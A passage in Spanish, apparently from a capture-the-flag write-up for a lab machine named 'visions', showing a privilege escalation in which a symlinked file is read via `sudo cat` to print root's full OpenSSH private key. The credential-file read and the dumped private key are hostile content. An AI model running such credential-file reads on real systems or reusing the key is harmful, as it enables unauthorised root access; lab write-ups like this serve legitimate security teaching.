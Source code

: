Como vemos ahora el fichero `.invisible` apunta hacia la `id_rsa` de `root`. Vámonos a la sesión de **Sophia** para continuar la escalada.

Una vez dentro podemos ejecutar el mismo comando de antes para así poder leer el contenido de `.invisible`, el cual ahora nos dará la `id_rsa` de `root`:

```sh
sophia@visions:~$ sudo /usr/bin/cat /home/isabella/.invisible
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAyezVs6KCQ/KFWpEkzDWX3ns/X4lUnh6PnNC2IVg3ciVgLcWF//wb
vlQxI+juYu5qTKVEL1FhkNaas+MlQUxabzOv+SDnCck60BLQbZf46sYHQaTrDyu5zhIWWi
wgPjmic/Ykd2qIQyIpyy9Ru4DiVK4RWLZWM28kb6eB99JTt4GSVEhraJ08hKsgaOi+skNg
S4QG85kG4ghmA1yJpPwzzpIdG4HUic63OXgy+z+pVB5oIEp0YXrCKMN/lBngZjZb9/+0S1
ljKzdcq7m1TOQ1Y04YJNMrxvPJ75d8U5s+m6cRxx5F3dX7oTVmErEAxFmJjdWVChzh81Ca
OnicNjHgrQAAA8hmM8ISZjPCEgAAAAdzc2gtcnNhAAABAQDJ7NWzooJD8oVakSTMNZfeez
9fiVSeHo+c0LYhWDdyJWAtxYX//Bu+VDEj6O5i7mpMpUQvUWGQ1pqz4yVBTFpvM6/5IOcJ
yTrQEtBtl/jqxgdBpOsPK7nOEhZaLCA+OaJz9iR3aohDIinLL1G7gOJUrhFYtlYzbyRvp4
H30lO3gZJUSGtonTyEqyBo6L6yQ2BLhAbzmQbiCGYDXImk/DPOkh0bgdSJzrc5eDL7P6lU
HmggSnRhesIow3+UGeBmNlv3/7RLWWMrN1yrubVM5DVjThgk0yvG88nvl3xTmz6bpxHHHk
Xd1fuhNWYSsQDEWYmN1ZUKHOHzUJo6eJw2MeCtAAAAAwEAAQAAAQEAiCmVXYHLN8h1VkIj
vzSwiU0wydqQXeOb0hIHjuqu0OEVPyhAGQNHLgwV6vIqtjmxIqgbF5FYKlQclAsq1yKGpR
AErQkb4sR4TVEyjYR6TM5mnER6YYuJysT1n667u1ogCvRDWOdUpXiHGEV7ZuYdOR78AYdL
D3n15vjcsmF5JHcftHOxnXraX7JqGXNCoRsMLT/yUOl02ClHsjFql1NTI/Br0GA4xhM/16
RHoRu1itOlWoyF4XSpSUDHW0RVQ/0gm/GyAc9QF6EWZXHfMfW07JvkeQLlndVbnItQ9a3v
ICAAh6zOZWVXpbhCPjjfaWTnwHhhSE3vfxMQQNTJnEghnQAAAIEAjAEzb6Xp6VV1RRaJR3
/Gxo0BRIbPJXdRXpDI3NO4Nvtzv8fX3muV/i+dgYPNqa7cwheSJZX9S7RzXsZTZn1Ywbdw
ahYTVyE9B4Nsen5gekylb59tNwPpCR8sJo6ZIL1GpmkEug+r+0YZyqpZXpG5uhCaSLX1fP
3UnkgqiKuzpvQAAACBAOOlQPW6pWXvULDsiUkilMXY0SNYLupMHJuqnWTuufyNfRthPQF2
gfWwXRjfDmzFoM9vVxJKKSd40696qbmTNnu7I4KyvXkF0OQ3IXIelQIiIcDpDbYd17g47J
IC6dHIQmUib3+whjeTvA5cc21y0EGNHoeNrlknE03dZHaIyfdPAAAAgQDjE3TE17PMEnd/
vzau9bBYZaoRt+eYmvXFrkU/UdRwqjS/LPWxwmpLOASW9x3bH/aiqNGBKeSe2k4C7MWWD5
tllkIbNEJNDtqQNt2NRvhDUOzAxca1C/IySuwoCAvoym5cpZ//EQ/OvWyZRwk3enReVmmd
x7Itf3P39SxqlP2pQwAAAAxyb290QHZpc2lvbnMBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

¡Ennhorabuena! Ya tenemos la clave privada `RSA` de `root`, por lo que ya tenemos acceso total a la máquina. ¡Qué fácil!